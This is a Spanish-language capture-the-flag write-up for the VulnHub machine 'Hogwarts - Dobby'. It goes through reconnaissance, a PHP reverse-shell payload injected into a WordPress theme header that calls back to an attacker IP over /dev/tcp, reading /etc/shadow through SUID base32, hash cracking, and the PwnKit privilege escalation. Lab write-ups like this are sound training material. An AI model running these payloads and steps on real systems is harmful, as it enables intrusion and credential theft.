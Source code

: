 ```yaml
---
title: Hogwarts - Dobby
date: 2024-09-08
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


Buenas, en esta máquina explotaremos un **Wordpress**, por el cual obtendremos una **Reverse Shell**, y migraremos de usuarios por el bit **SUID** de un binario, y escalaremos de privilegios por la versión anticuada de **pkexec**.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo con *NMAP* para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 192.168.1.167 -n -Pn -v
```

Encontramos únicamente el puerto **80 - HTTP** abierto.

![picture](/assets/images/vulnhub/hog1.png){: w="600" h="300" }

Si nos vamos al navegador, para ver que está corriendo, vemos una página por defecto de **Apache2**.

![picture](/assets/images/vulnhub/hog2.png)

Buscando en el código fuente de la página, vemos una ruta comentada.

![picture](/assets/images/vulnhub/hog3.png)

Y encontramos lo siguiente.

![picture](/assets/images/vulnhub/hog4.png)

La casa del personaje **Draco Malfoy** es **Slytherin**.

---

## **Explotación**

Realizando **Fuzzing** con **Gobuster** encontramos otras rutas.

```bash
gobuster dir -u http://192.168.1.167 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .txt,.php,.html -b 404,403 -t 200
```

![picture](/assets/images/vulnhub/hog5.png)

En el contenido de la ruta "**/log**", encontramos una contraseña, y otra ruta.

![picture](/assets/images/vulnhub/hog6.png)

Y dentro de la ruta encontrada en "**/log**", vemos un *Blog* corriendo con **Wordpress 5.5.3**.

![picture](/assets/images/vulnhub/hog7.png)

Viendo la entrada de **DOBBY**, si traducimos el texto codificado en **Brainfuck** no obtenemos nada claro.

![picture](/assets/images/vulnhub/hog8.png)

Y dentro de la web no encuentro nada más interesante, realizando **Fuzzing** sobre la la web de **Wordpress**, encuentro las rutas y archivos típicos.

![picture](/assets/images/vulnhub/hog9.png)

En el login de **wp-admin** consigo acceder al panel administrador con las credenciales de **Draco**.

![picture](/assets/images/vulnhub/hog10.png)

![picture](/assets/images/vulnhub/hog11.png)

Dentro del panel administrador, al ser la versión antigua, si nos deja editar el tema, podremos inyectar código **PHP** para obtener una **Reverse Shell** en nuestra máquina local.

Nos vamos al editor de temas, y en la cabecera del tema activo (*header.php*) le introducimos el código que nos devolverá la **Reverse Shell**.

```php
exec("bash -c 'bash -i >& /dev/tcp/192.168.1.159/4444 0>&1'");
```

![picture](/assets/images/vulnhub/hog12.png)

Y actualizamos el archivo.

Una vez hecho, crearemos un **Listener** con **ncat** en nuestra máquina local, con el puerto indicado en el código **PHP** para que nos devuelva una **Shell** interactiva.

- *Listener*
	
	```bash
	nc -nlvp 4444
	```

E introduciremos en la *URL* del navegador la ruta donde se encuentra el archivo **header.php**.

```python
http://192.168.1.167/DiagonAlley/wp-content/themes/amphibious/header.php
```

Pulsamos "*enter*", y se nos ejecutará el código.

![picture](/assets/images/vulnhub/hog13.png)

Y obtendremos una **Shell** interactiva en nuestra máquina local dentro del servidor.

![picture](/assets/images/vulnhub/hog14.png){: w="600" h="300" }

Hago un tratamiento de la *tty*, para obtener una *Shell* más limpia.

```bash
script /dev/null -qc /bin/bash
CTRL+Z
stty raw -echo; fg
ls
export SHELL=/bin/bash
export TERM=screen
stty rows 46 columns 184 ('stty size' en la máquina local)
reset
```

Encontramos el usuario **dobby**.

![picture](/assets/images/vulnhub/hog15.png)

Dentro de su carpeta personal encontramos la primera **flag**.

![picture](/assets/images/vulnhub/hog16.png)

---

## **Escalada de privilegios**

Buscando archivos con el **Bit** **SUID**, encuentro **base32**.

```bash
find / -perm -4000 -type f 2>/dev/null
```

![picture](/assets/images/vulnhub/hog17.png)

En la Web [**GTFOBins - base32**](https://gtfobins.github.io/gtfobins/base32/), encontramos como podemos leer archivos privilegiados del servidor gracias al bit **SUID** en **base32**.

Voy a leer el contenido del archivo "**/etc/shadow**" que es el que contiene las contraseñas cifradas de los usuarios del sitema.

```bash
LFILE=/etc/shadow
base32 "$LFILE" | base32 --decode
```

![picture](/assets/images/vulnhub/hog18.png)

Y en su contenido encontramos la contraseña cifrada del usuario **dobby**.

![picture](/assets/images/vulnhub/hog19.png)

A continuación, la copiaremos, y la intentaremos crackear con **JohnTheRipper** mediante fuerza bruta en nuestra máquina local.

![picture](/assets/images/vulnhub/hog20.png)

```bash
echo 'contraseña cifrada' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Y al cabo de un rato, nos encuentra la contraseña.

![picture](/assets/images/vulnhub/hog21.png){: w="600" h="300" }

Migramos de usuario a **dobby**, y obtenemos resultado.

![picture](/assets/images/vulnhub/hog22.png)

Cuando busqué los binarios con bit de **SUID**, también encontré **pkexec**, viendo ahora la versión (**0.105**) para una posible escalada de privilegios, me doy cuenta que es vulnerable a [**PwnKit - CVE-2021-4034**](https://github.com/Almorabea/pkexec-exploit).

Me descargo el script en **Python3** del repositorio de **Github**, con **wget**.

![picture](/assets/images/vulnhub/hog23.png)

Y lo ejecuto para obtener una bash como **root**.

![picture](/assets/images/vulnhub/hog24.png){: w="600" h="300" }

Y en el directorio personal encuentro la segunda **flag**.

![picture](/assets/images/vulnhub/hog25.png){: w="600" h="300" }




